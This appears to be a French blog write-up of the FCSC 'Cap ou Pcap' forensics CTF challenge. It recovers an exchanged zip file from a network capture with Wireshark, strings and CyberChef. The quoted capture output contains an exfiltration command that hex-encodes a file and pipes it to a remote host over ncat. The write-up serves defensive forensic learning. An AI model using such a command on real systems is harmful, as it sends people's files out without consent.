



+++
author = "Enzo"
title = "Chall - FCSC Cap ou Pcap"
date = "2026-02-07"
categories = [
    "Blue Team"
]
tags = [
    "Forensic",
    "CTF",
    "Chall",
    "FCSC",
    "Réseau",
    "Wireshark"
]
+++

## Introduction
Voici la capture d’une communication réseau entre deux postes. Un fichier a été échangé et vous devez le retrouver. Le flag est présent dans le contenu du fichier.

## Recherche
En ouvrant le ``.pcap`` avec wireshark nous pouvons voir ça : 
 

Quand on fait un ``Clique droit`` sur la trame, puis un ``Follow``, puis ``TCP Stream``. Nous avonss ce résultat : 
 

Nous pouvons voir ici l'apparition d'un fichier ``flag.zip`` nous pouvons donc nous pencher dessus. 
Nous pouvons faire un ``strings`` du fichier ``.pcap`` : 
````Bash 
strings cap.pcap                                                                                                                                                                 ─╯
RHrX
RHrX'
uid=1001(fcsc) gid=1001(fcsc) groups=1001(fcsc)
qpwd
-/home/fcsc
 07:10:25 up 24 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
fcsc     tty7     :0               06:46   24:47   3.13s  0.00s /bin/sh /etc/xdg/xfce4/xinitrc -- /etc/X11/xinit/xserverrc
#Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
ls Documents
flag.zip
Ffile Documents/flag.zip
Documents/flag.zip: Zip archive data, at least v2.0 to extract
xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
5KgZ7
5Kg[
5Kg[
504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000d
5Kg[7
5Kg[
5Kg[7
5Kg\
Iexit
````

Ici ce qui m'intérese c'est le block hexa : 
````Hexa
504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000d
````

Je met ça dans ``CyberChef`` pour "décoder" le tout : 
 

En module nous mettons ``From Hex`` avec un délimiteur ``Auto``, puis un ``Unzip`` pour récupérer le fichier. 
 

Ici nous pouvons cliquer sur ``Download flag.txt``ou sur ``Move To Input`` pour ne pas avoir à le Télécharger : 
 

Et voila, nous pouvons retrouver le contenu du fichier ``flag.txt``